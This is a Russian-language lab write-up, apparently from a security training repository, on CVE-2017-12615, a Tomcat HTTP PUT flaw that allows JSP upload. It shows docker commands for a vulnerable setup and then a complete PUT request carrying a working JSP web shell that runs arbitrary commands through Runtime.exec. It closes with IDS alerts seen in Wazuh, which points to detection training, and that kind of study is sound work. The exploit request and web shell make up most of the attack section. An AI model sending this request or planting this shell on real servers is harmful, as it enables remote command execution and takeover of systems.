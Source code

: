 # CVE-2017-12615

Apache Tomcat — это комплект серверных программ от Apache Software Foundation, предназначенный для тестирования, отладки и исполнения веб-приложений на основе Java.

При запуске Apache Tomcat версий 7.0.0–7.0.79 в Windows с включенным методом HTTP PUT  можно загрузить файл JSP на сервер с помощью специально созданного запроса. При запросе этого файла будет выполняться код, содержащийся в нем.

### Эксплуатация уязвимости

Для запуска уязвимой среды выполните команды:

```
docker compose build 
docker compose up -d
```

После запуска под адресу http://ваш-ip:8080/ будет доступна стандартная страница Apache Tomcat

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Отправьте следующий запрос:

```
PUT /1.jsp/ HTTP/1.1
Host: ваш-ip:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 898


<%@ page import="java.util.*,java.io.*"%>
<%
%>
<HTML><BODY>
Commands with JSP
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
    out.println("Command: " + request.getParameter("cmd") + "<BR>");
    Process p;
    if ( System.getProperty("os.name").toLowerCase().indexOf("windows") != -1){
        p = Runtime.getRuntime().exec("cmd.exe /C " + request.getParameter("cmd"));
    }
    else{
        p = Runtime.getRuntime().exec(request.getParameter("cmd"));
    }
    OutputStream os = p.getOutputStream();
    InputStream in = p.getInputStream();
    DataInputStream dis = new DataInputStream(in);
    String disr = dis.readLine();
    while ( disr != null ) {
    out.println(disr);
    disr = dis.readLine();
    }
}
%>
</pre>
</BODY></HTML>
```

В данном запросе полезной нагрузкой является код, реализующий CMD Injection

<figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Теперь, обращаясь к созданному файлу 1.jsp мы можем выполнять произвольные команды на хосте:

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>
